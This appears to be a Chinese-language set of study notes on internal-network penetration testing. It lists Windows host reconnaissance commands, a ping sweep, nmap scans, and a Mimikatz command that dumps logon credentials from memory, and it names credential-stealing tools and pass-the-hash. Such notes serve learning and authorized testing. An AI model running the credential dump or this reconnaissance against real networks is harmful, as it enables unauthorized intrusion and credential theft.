 # 内网渗透体系建设 笔记

`ipconfig /all`

`ipconfig /all`

`route print`

```
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" ＃查看操作系统及版本
systeminfo | findstr /B /C:"OS 名称“/C:"OS 版本＂ ＃查看操作系统及版本
```

`netstat -ano`

当前会话：`net session`

![image-20231020014434711](笔记.assets/image-20231020014434711.png)

`net use` 已建立的网络共享

`tasklist`,  `tasklist /SVC`



`wmic process get Name, Processid, ExecutablePath` 获得更详细的信息



`wmic qfe get Caption, CSName, Description, HotFixID, InstalledOn`

![image-20231020014736446](笔记.assets/image-20231020014736446.png)

net

![image-20231020014802883](笔记.assets/image-20231020014802883.png)

`query user` 查看当前登录的用户

![image-20231020014840657](笔记.assets/image-20231020014840657.png)

![image-20231020014859397](笔记.assets/image-20231020014859397.png)

注意，只有域用户才有权限执行域内查询操作。而计算机本地用户除非提升为本地系统权限，否则只能查询本机信息，无法查询域内信息并提示“拒绝访问＂。这是因为，在域环境中，所有与域有关的查询都需要通过域控制器来实现，并且需要经过Kerberos协议进行认证。

![image-20231020014940127](笔记.assets/image-20231020014940127.png)![image-20231020015000074](笔记.assets/image-20231020015000074.png)![image-20231020015011334](笔记.assets/image-20231020015011334.png)

### 查找存活主机：

基于ICMP协议发现存活主机：

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 10.10.10.%I | findstr "TTL="
```

基于NetBIOS：

nbtscan.exe 工具

基于UDP：

`unicornscan -mU 10.10.10.0/24`

基于ARP：

P63

#### nmap

```
nmap -p 80,88,135,139,443,8080,3306,3389 10.10.10.11
```

nmap 扫描所有开放的端口
```
nmap -sS -p 1-65535 10.10.10.11
```

扫描并获取服务版本：

```
nmap -sC -sV -p 80,88,135,139,443,8080,3306,3389 10.10.10.11
```

#### MSF

![image-20231020015626916](笔记.assets/image-20231020015626916.png)

## 用户凭据收集

Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
# privilege::debug, 用于提升至DebugPrivilege权限，sekurlsa::logonpasswords, 用于导出用户凭据
```

![image-20231020015917233](笔记.assets/image-20231020015917233.png)

![image-20231020015951604](笔记.assets/image-20231020015951604.png)

![image-20231020020007760](笔记.assets/image-20231020020007760.png)

SharpDecryptPwd.exe

HackBrowserData

多层代理：P100



WES-NG：P106



![image-20231020023437926](笔记.assets/image-20231020023437926.png)

哈希传递攻击 P182
